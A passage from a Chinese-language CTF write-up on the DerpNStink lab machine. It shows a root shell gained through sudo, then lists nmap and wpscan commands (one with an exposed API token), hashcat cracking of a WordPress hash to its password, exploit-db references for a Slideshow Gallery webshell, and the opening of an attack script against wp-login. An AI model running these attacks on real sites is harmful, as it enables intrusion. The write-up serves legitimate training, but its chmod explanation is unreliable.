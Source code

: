 mrderp@DeRPnStiNK:~/binaries$ sudo ./derpy.sh 
root@DeRPnStiNK:~/binaries# id
uid=0(root) gid=0(root) groups=0(root)
获得root权限！获得flag4！


-----------
拓展知识：

nmap -sC -sV -A -O -p -T4 --script http-enum 192.168.4.58


wpscan --url http://derpnstink.local/weblog/
需要官网注册获取新令牌：
https://wpscan.com/register
注册成功后选择免费的就行，会生成一个密匙复制进来！
wpscan --url http://derpnstink.local/weblog/ --api-token 密匙

wpscan --url http://derpnstink.local/weblog/  --api-token kJ4bhZCgveCcoGJPER7AOsHJTeFDf90Wfj9zu0V6asc
找到五个漏洞可以利用！
加入参数 -e u ：
可以发现两个用户和漏洞信息！！

Slideshow Gallery exploit  --谷歌发现
https://www.exploit-db.com/exploits/34681



hashcat -m 400 -a 0 -O 2.txt /usr/share/wordlists/rockyou.txt 
$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41:wedgie57 
另外一种爆破方法！

chmod -rwx key.txt   ----rwx就是400
学习参考菜鸟：https://www.runoob.com/linux/linux-comm-chmod.html


通过谷歌搜索可以利用34681进行webshell！
cp /usr/share/exploitdb/exploits/php/webapps/34681.txt .
mv 34681.txt 34681.py
但是python2的库无法更新，没浪费时间去纠结！！



或者执行：34514漏洞
--------------------------
#!/bin/bash

HOST=derpnstink.local
BLOG=weblog
USER=admin
PASS=$USER
VULN="wp-admin/admin.php?page=slideshow-slides&method=save"
FILE=$1

# authenticate
curl \
    -s \
    -c cookie \
    -d "log=$USER&pwd=$PASS&wp-submit=Log" \
    http://$HOST/$BLOG/wp-login.php
